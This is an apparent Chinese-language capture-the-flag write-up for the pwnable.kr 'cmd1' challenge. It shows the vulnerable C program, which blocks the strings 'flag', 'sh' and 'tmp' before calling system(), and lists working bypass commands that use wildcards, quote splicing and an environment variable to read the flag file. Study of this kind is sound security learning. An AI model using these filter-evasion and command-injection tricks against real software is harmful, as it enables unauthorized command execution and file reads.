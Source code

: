 ```
cmd1 - 1 pt

Mommy! what is PATH environment in Linux?

ssh cmd1@pwnable.kr -p2222 (pw:guest)
```

登陆服务器之后，cmd1有cmd1_pwn的group权限，可以读flag。

```bash
cmd1@ubuntu:~$ ls -l
total 20
-r-xr-sr-x 1 root cmd1_pwn 8513 Jul 14  2015 cmd1
-rw-r--r-- 1 root root      320 Mar 23  2018 cmd1.c
-r--r----- 1 root cmd1_pwn   48 Jul 14  2015 flag
```

本关的代码量不是很大，直接看源码吧。

```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "flag")!=0;
	r += strstr(cmd, "sh")!=0;
	r += strstr(cmd, "tmp")!=0;
	return r;
}
int main(int argc, char* argv[], char** envp){
	putenv("PATH=/thankyouverymuch");
	if(filter(argv[1])) return 0;
	system( argv[1] );
	return 0;
}
```

给r复制时的反汇编如下：

```asm
call    _strstr        
test    rax, rax      ;// 判断返回值是否为，影响ZF标志位
setnz   al		      ;// set if not zero，如果ZF为1，al为0。如果ZF为1，al为1。
movzx   eax, al       ;// 16位扩展为32位，movzx无符号扩展。movsx为有符号扩展
add     [rbp+var_4], eax   ;// 修改r的值
```



strstr是Standard C Library中的函数，看一下实现。

```
SYNOPSIS
     #include <string.h>
	 
     char * strstr(const char *haystack, const char *needle);
     
DESCRIPTION
     The strstr() function locates the first occurrence of the null-terminated string needle in the null-terminated string haystack.
     
RETURN VALUES
     If needle is an empty string, haystack is returned; if needle occurs nowhere in haystack,NULL is returned; otherwise a pointer to the first character of the first occurrence of needle is returned.
```

如果needle为空字符串，strstr返回haystack。如果needle没有出现，返回NULL。否则返回第一次匹配到的子串。

本关调用putenv修改了环境变量PATH,因此原先的命令需要用绝对路径去运行，或者export PATH恢复再使用。此外，filter了argv[1]，不能出现flag sh tmp这些字符串。最后调用system执行。本关很明显是要让我们找一些bypass方案了。



## flag

总结了一下目前的拿flag姿势。

```bash
# 通配符  cat fla* 可以读flag
cmd1@ubuntu:~$ ./cmd1 /b"in/cat /home/cmd1/fla*"
mommy now I get what PATH environment is for :)

# 字符串拼接 'f'la'g' 在bash中还是flag
cmd1@ubuntu:~$ echo 'f'la'g'
flag
cmd1@ubuntu:~$ ./cmd1 "/bin/cat /home/cmd1/'f'lag"
mommy now I get what PATH environment is for :)
cmd1@ubuntu:~$ echo 'f'lag
flag
cmd1@ubuntu:~$ echo "f"lag
flag
cmd1@ubuntu:~$ ./cmd1 "/bin/cat /home/cmd1/\"f\"lag"
mommy now I get what PATH environment is for :)

# env设置环境变量拿flag
cmd1@ubuntu:~$ env x='/bin/cat /home/cmd1/flag' ./cmd1 "\$x"
mommy now I get what PATH environment is for :)

...
```

